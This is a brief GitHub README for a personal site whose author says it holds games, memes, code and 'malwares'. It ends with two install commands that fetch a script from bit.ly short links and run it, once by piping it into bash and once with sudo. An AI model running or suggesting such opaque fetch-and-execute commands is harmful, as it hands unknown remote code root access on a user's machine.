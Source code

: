 # phoenixthrush.github.io
Just lil games, music, memes, codes, malwares, archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao


curl -sL https://bit.ly/3hXEadY | bash

or
wget https://bit.ly/3m0JwFX && mv 3m0JwFX phoenix.sh && sudo chmod +x phoenix.sh && sudo  ./phoenix.sh
